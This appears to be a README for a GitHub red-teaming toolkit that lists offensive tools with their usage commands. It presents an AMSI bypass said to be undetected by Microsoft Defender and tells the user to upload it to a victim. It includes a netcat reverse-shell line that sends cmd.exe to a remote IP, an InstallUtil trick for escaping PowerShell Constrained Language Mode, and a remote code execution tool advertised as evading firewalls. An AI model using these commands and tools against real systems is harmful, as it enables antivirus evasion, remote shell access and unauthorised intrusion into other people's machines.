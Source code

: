 # Some custom tools for redteaming
Tools and more... 

### AMSI
---
Golang amsi bypass, currently undetected by Microsoft Defender and possibly other AV solutions
- Usage:
  - Download [amsi.exe](https://github.com/namcuongq/security/blob/main/amsi/amsi.exe) and upload to victim
  - Run amsi.exe and enjoy it.
####
  *Note: if you want to add add parameter to program or open any exe file with bypass amsi mode, You only need put them into file with name godpay in the same directory amsi.exe. Example godpay file:*
  ```
  powershell ipconfig
  or 
  C:\Users\Public\nc.exe 192.168.0.19 8080 -e cmd.exe
  ```
  
### Bypass-CLM
---

- This will build an executable which executes a Full Language Mode powershell session. This method will provide a full powershell session just like running powershell.exe, but not powershell.
- If AppControl is enabled, you can run it with InstallUtil.
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U "bypass-clm.exe"
```

### Dir_Server
---
Simple directory listing in http-server like python http-simple-server. You can use it for download file.
```
dir_server [dir] [listen address]
```

### Forward_Tcp
---
Simple way to create a tunnel from special port to another. Tool like socat but usage very easy.

```
forward_tcp [src] [dst]
```

### NCC
---
Simple Remote Code Execution Tool via http or https which is normally not blocked and to the destination server, effectively bypassing the restrictions on firewall
```
ncc -l -s 10.10.3.5:443
ncc -s 10.10.3.5:443 -e
```

### SSH_Brute
---
  

